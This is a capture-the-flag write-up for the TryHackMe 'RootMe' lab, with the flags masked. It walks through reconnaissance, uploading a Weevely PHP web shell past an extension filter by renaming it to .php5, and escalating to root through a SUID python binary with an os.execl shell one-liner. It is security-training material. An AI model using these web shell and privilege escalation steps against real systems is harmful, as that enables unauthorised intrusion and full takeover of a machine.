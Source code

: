 # CTF-Write-up

## Try Hack Me - RootMe

##### URL: https://tryhackme.com/room/rrootme

##### Created by _ReddyyZ_

![logo](https://user-images.githubusercontent.com/20625004/109557761-31670f00-7ae1-11eb-8e3f-0d225c8b0f8c.PNG)

##### You should deploy the machine first.
#

##### Run nmap against the target machine.

```nmap <target IP>```

![nmap](https://user-images.githubusercontent.com/20625004/109558163-ba7e4600-7ae1-11eb-9b88-719a011b0674.PNG)

We have the first answers to the relevant questions.

Next we fire up gobuster in order to seach for paths in the web application that will help us to map the app.

```gobuster dir -u <target IP> -w <wordlist location>```

![gobuster](https://user-images.githubusercontent.com/20625004/109559704-acc9c000-7ae3-11eb-8d7f-a6f6d609972d.PNG)

We access the panel path and we observe that we can upload files.

![panel](https://user-images.githubusercontent.com/20625004/109559603-8b68d400-7ae3-11eb-838e-27ba5fb39bb4.PNG)

Getting a shell.

Lets try uploading a file containing a reverse shell script written in php. 

I used the Weevely tool, found at  https://github.com/epinna/weevely3. 

```weevely generate <pass> <path>/file1.php5```

Note that when we first try to upload this file as .php, we get an error message saying that we cannot upload this type of file.
After some trial and errors by changing the extension “.php” to “.php5”. we can upload the file.

![upload](https://user-images.githubusercontent.com/20625004/109560562-b6075c80-7ae4-11eb-8e48-8c937299d3b3.PNG)

The we connect with Weevely to the target system.

```weevely <Target Path> <pass that we used in the previous step>```

![shell](https://user-images.githubusercontent.com/20625004/109560957-2dd58700-7ae5-11eb-80b4-7b9450463b45.PNG)

Now that we have access we search for the first flag user.txt

```find -name \user.txt```

```THM{********************}```

![1flag](https://user-images.githubusercontent.com/20625004/109561227-8b69d380-7ae5-11eb-9709-9f5bd3475e0e.PNG)
 
 And we have our first flag.
 
 Now for the second one.
 
 Digging around showed that we need to find a different way to get the root flag. We search for all files with the suid permission.
 
 ```find . perm /4000```
 
 It will provide us with a list of files with the suid set. The one that we can abuse is ```/usr/bin/python```.
 
 Check also https://gtfobins.github.io/gtfobins/python/#shell for more information.
 
 run ```/usr/bin/python -c ‘import os; os.execl(“/bin/sh”, “sh”, “-p”)’```
 
 and now ```cat /root/root.txt``` 
 
 ```THM{********************}```
 
 And now we have all the flags.

